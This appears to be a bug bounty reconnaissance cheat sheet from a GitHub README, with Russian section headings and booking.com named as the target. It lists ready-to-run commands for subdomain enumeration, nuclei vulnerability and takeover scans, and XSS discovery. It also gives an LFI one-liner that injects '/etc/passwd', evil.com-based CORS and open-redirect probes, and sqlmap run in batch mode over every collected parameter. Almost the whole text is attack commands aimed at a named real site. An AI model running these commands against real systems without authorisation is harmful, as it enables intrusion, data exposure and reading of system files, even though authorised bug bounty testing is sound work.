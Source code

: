 # liveBB01
live bug bounty 01

* echo booking.com > target.txt
 #_________________________________________ найдет субдомены _________________________________________
* subfinder -dL target.txt -all --recursive -o subs.txt
 #_________________________________________ оставляем только живые _________________________________________
* cat subs.txt | httpx -o aliveSubs.txt
 _________________________________________ вытащить все юрл с субдоменов _________________________________________
* cat subs.txt | waybackurls | tee urls.txt
 _________________________________________ перверяет субдомен тейковер среди живых доменов _________________________________________
* nuclei -t /nuclei-templates/takovers/ -l aliveSubs.txt
* nuclei -l urls.txt -t /nuclei-templates/fuzzing-templates/
_________________________________________ проверяет на cve, exposure, vuln _________________________________________
* nuclei -list aliveSubs.txt -t /nuclei-templates/vulnerabilities -t /nuclei-templates/cves -t /nuclei-templates/exposures
  _________________________________________ из юрл извлекаем те юрл у которых есть параметры и js файлы _________________________________________
* cat urls.txt | grep "=" | tee param.txt
* cat urls.txt | grep -iE '.js'| grep -ivE '.json' | sort -u | tee js.txt
  _________________________________________ проверяет баги в js файлах _________________________________________
* nuclei -t /nuclei-templates/http/exposures/ -l js.txt -o jsBugs.txt
  _________________________________________ проверяет xss _________________________________________
* cat urls.txt | uro | gf xss > xss.txt
* cat param.txt | kxss
* paramspider -d booking.com
 _________________________________________ проверяет lfi _________________________________________
* cat aliveSubs.txt | gau | uro | gf lfi | tee lfi.txt
* nuclei -l target.txt -tags lfi
* cat aliveSubs.txt | gau | uro | gf lfi | qsreplace  "/etc/passwd" | while read url; do curl -silent "$url" | grep "root:x:" && echo "$url is Vulnerable"; done;
* site=$(cat target.txt); gau $site | while read url; do target=$(curl -sIH Origin: https://evil.com -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found] echo $url; else echo Nothing on $url; fi; done
  ________________________________________ проверяет sqli ________________________________________
* python3 sqlifinder.py -d booking.com
* sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt
  ______________________________________ проверяет открытое перенаправление _________________________________________
* cat urls.txt | grep -a -i =http | qsreplace 'evil.com' | while read host do;do curl -s -L $host -I| grep evil.com && echo $host 3[0;31mVulnerable\n ;done
 _________________________________________ нуклей фазер проверет все уязвимости _________________________________________
* nf -d booking.com

